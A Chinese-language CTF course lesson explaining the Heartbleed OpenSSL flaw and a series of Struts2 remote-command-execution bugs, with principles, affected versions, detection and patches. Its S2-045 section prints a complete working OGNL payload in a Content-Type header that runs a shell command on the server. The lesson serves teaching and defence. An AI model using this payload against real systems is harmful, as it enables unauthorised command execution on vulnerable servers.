




# 网络安全CTF：P30：64. 重点漏洞分析_1 🔍


在本节课中，我们将学习两个在网络安全领域具有重大影响的经典漏洞：OpenSSL的“心脏滴血”漏洞和Struts2框架的远程命令执行漏洞。我们将分析它们的原理、影响范围、验证方法以及修复方案。


## 心脏滴血漏洞分析 💔

上一节我们介绍了本节课的主要内容，本节中我们来看看第一个重点漏洞——心脏滴血漏洞。

心脏滴血漏洞存在于OpenSSL当中。OpenSSL是一个强大的安全套接字层密码库，包括主要的密码算法、常用的密钥和证书封装管理功能及SSL协议，并提供丰富的应用程序供测试或其他目的使用。

心脏滴血漏洞又叫Heartbleed漏洞，其CVE编号是CVE-2014-0160。它是OpenSSL中的一个重大安全漏洞，于2014年4月7日由国外黑客曝光。该漏洞可以让攻击者获得服务器上64K内存中的数据内容，泄露服务器的内存数据，其中包括大量敏感信息，如用户名、密码、信用卡号码等。另外，攻击者还可以复制服务器的数字密钥，随后伪装服务器或解密通信。由于使用OpenSSL源代码的网站数量巨大，该漏洞影响十分严重。



### 漏洞原理

下面看一下漏洞原理。TLS心跳由一个请求包组成，其中包括有效载荷。通信的另一方将读取这个包，并发送一个响应，其中包含同样的载荷。在处理心跳请求的代码中，载荷大小是从攻击者可控的包中读取的。由于OpenSSL并没有检查该载荷大小值，从而导致越界读取，造成了敏感信息泄露。

### 漏洞验证流程

以下是漏洞验证的主要流程：
1.  建立Socket连接。
2.  发送TLS Client Hello请求。
3.  发送畸形Heartbleed请求。
4.  如果服务器响应会伴随有Encrypted Heartbeat Message，即泄露的内存数据。
5.  检测漏洞存在。

漏洞验证的流程可以使用Python脚本来完成。这里给出一个GitHub上开源的漏洞验证脚本作为参考。

```python
# 示例：心脏滴血漏洞验证脚本关键部分
def send_heartbleed_packet(socket):
    # 构造畸形的心跳请求包
    # ...
    socket.send(packet)
    response = socket.recv()
    # 分析响应，判断是否存在泄露的数据
    # ...
```

### 受影响版本与修复方案

该漏洞受影响的版本相对较多，大家可以根据PPT中所列举的受影响版本及不受影响版本，对服务器中的OpenSSL是否受影响进行排查。

对于该漏洞的修复主要有两个方面：
1.  **官方解决方案**：OpenSSL已经发布了1.0.1g修复版本来修复此问题。因此，建议升级到OpenSSL 1.0.1g这个版本。对于OpenSSL 1.0.2-release系列的版本，厂商表示将会在1.0.2-beta2版本中进行修复。主流的Linux发行版也已经发布了相关补丁，建议尽快升级。
2.  **临时解决方法**：如果不能立刻安装补丁或升级，可以采取以下措施以降低风险：使用 `-DOPENSSL_NO_HEARTBEATS` 选项重新编译OpenSSL即可。

## Struts2远程命令执行漏洞分析 ⚡

上一节我们分析了心脏滴血漏洞，本节中我们来看看第二个重点漏洞——Struts2远程命令执行漏洞。

Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个Servlet。在MVC设计模式中，Struts2作为控制器来建立模型与视图的数据交互。

下面这几个漏洞是2017年被曝出来的，主要是远程命令执行类的漏洞。从Struts2远程命令执行漏洞爆出的数量来看，Struts2这个框架存在的安全问题是相对比较多的。

以下是几个典型的Struts2远程命令执行漏洞：
*   **S2-045**：攻击者可以在使用Struts2 Jakarta Multipart插件上传文件时，修改HTTP请求头中的Content-Type值来触发该漏洞，导致远程执行代码。
*   **S2-046**：S2-045补丁的绕过。攻击者通过设置`Content-Disposition`的`filename`字段，或者设置`Content-Length`超过2G这两种方式来触发异常，并导致`filename`字段中的OGNL表达式得到执行，从而达到远程攻击的目的。
*   **S2-048**：Apache Struts1插件存在远程代码执行的高危漏洞。攻击者可以构造恶意的字段值，通过Struts2的Struts1插件远程执行代码。
*   **S2-052**：Struts 2.5.x以及之前的部分2.x版本的REST插件存在远程代码执行漏洞。漏洞的成因是由于使用XStreamHandler反序列化XStream实例的时候，没有任何类型过滤，导致远程代码执行。
*   **S2-053**：该漏洞源于在处理Freemarker标签时，若程序员使用了不恰当的编码表达，会导致远程代码执行。
*   **S2-054**：Apache Struts REST插件使用了过时的JSON-lib库，攻击者可以通过构造特制的JSON恶意请求，造成DoS攻击。
*   **S2-055**：是由于Apache Struts2调用了存在反序列化漏洞的Jackson库，导致了反序列化漏洞的产生。

下面以S2-045为例，分析该漏洞的利用过程以及修复方案。

### S2-045漏洞原理

S2-045这个漏洞是由于Struts2对错误消息处理出现了问题。通过`Content-Type`这个HTTP头注入OGNL语言进而执行命令。Jakarta Multipart插件在解析文件上传请求过程中，当`Content-Type`格式不被识别时出现异常，导致OGNL表达式被执行。该漏洞触发是在`buildErrorMessage`函数。

### 漏洞检测与防护


对于该漏洞的检测方法，主要有以下几种：
1.  通过POC验证或直接查看Struts2的版本。
2.  通过漏扫工具进行检查。
3.  通过在线检测网站进行检测。

对于该漏洞的监测，可以通过安全防护设备来进行监测，或者定期对框架进行升级维护。

### POC关键代码与影响版本



下面我们看一下POC当中的关键代码。该段代码是漏洞利用的关键部分。将该代码复制为`Content-Type`，然后发送给服务器。其中，远程命令执行的代码部分用橙色字体来表示。

```http
POST /upload.action HTTP/1.1
Host: target.com
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

该漏洞受影响版本是Struts 2.3.5至2.3.31之间的版本都受影响，以及Struts 2.5至2.5.10。不受影响版本是2.3.32以及2.5.10.1这两个版本。

### 修复方案

对于该漏洞的解决方案，也是从两个方面来解决：
1.  **官方解决方案**：官方已经发布了版本更新，建议用户升级到不受影响的最新版本。下面也给出了新版本的下载链接。
2.  **临时修复方案**：
    *   修改`WEB-INF/classes`目录下的`struts.xml`配置文件，在该配置文件当中的`<struts>`标签下添加`<constant>`标签。
    *   在`WEB-INF/classes`目录下添加`global.properties`文件，并将文件内容填写为PPT当中展示的内容。
    *   配置过滤器，过滤`Content-Type`的内容。在Web应用的`web.xml`中配置过滤器，在过滤器中对`Content-Type`内容的合法性进行检测。

下面展示对于临时修复方案当中的部分截图。

第一张图片是修改Struts的配置文件，并且添加`global.properties`配置文件。



第二张截图是过滤器的关键代码部分。



## 总结 📝


本节课中我们一起学习了两个经典的网络安全漏洞。我们首先深入分析了OpenSSL心脏滴血漏洞的原理、验证方法及修复措施，了解了其因未对心跳包载荷大小进行校验而导致的内存信息泄露风险。接着，我们探讨了Struts2框架中一系列远程命令执行漏洞，并以S2-045为例，详细讲解了其通过`Content-Type`头注入OGNL表达式执行的原理、检测方式和修复方案。理解这些漏洞的成因和防御方法，对于构建安全的网络环境至关重要。